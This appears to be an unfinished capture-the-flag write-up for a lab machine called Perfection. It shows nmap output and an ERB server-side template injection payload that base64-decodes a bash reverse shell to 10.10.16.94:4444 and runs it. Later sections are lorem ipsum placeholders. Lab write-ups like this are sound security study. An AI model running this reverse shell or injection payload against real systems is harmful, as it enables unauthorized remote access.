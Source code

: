 ```yaml
---
aliases:
  - Perfection
Date: 2024-03-15
Platform: 
Category: 
Difficulty: 
tags: 
Status: 
IP: 10.10.11.253
---
```


# Perfection

![img][../../../Images/Pwned-Perfection.png]


## Improved skills
- Exploit **SSTI** vulnerability 

## Used tools
- nmap
- gobuster
- Burpsuite
- hashcat
---

# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sT -sV -p- perfection.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-15 18:47 EDT
Nmap scan report for perfection.htb (10.10.11.253)
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.41 seconds

```

---
# Vulnerability Assessment
## Server Side Template Injection (SSTI)
This machine is vulnerable to **[SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)** vulnerability.
// TODO insert Vulnerability assessment
# Exploitation


```bash
┌──(kali㉿kali)-[~/Machine/Perfection]
└─$ hURL -B "bash -i >& /dev/tcp/10.10.16.94/4444 0>&1"

Original       :: bash -i >& /dev/tcp/10.10.16.94/4444 0>&1
base64 ENcoded :: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45NC80NDQ0IDA+JjE=
```

```bash
┌──(kali㉿kali)-[~/Machine/Perfection]
└─$ hURL -U "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45NC80NDQ0IDA+JjE="

Original    :: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi45NC80NDQ0IDA+JjE=
URL ENcoded :: YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi45NC80NDQ0IDA%2BJjE%3D
```
### Exploit

In place reverseshelle put the revesershell encoded
```bash
payload 
a%0A<%25%3dsystem("echo+<reverseshelle>|+base64+-d+|+bash");%25>1
```


---

# Lateral Movement to user
## Local Enumeration
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

## Lateral Movement vector
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

---

# Privilege Escalation
## Local Enumeration
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

## Privilege Escalation vector
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

---

# Trophy & Loot
user.txt

root.txt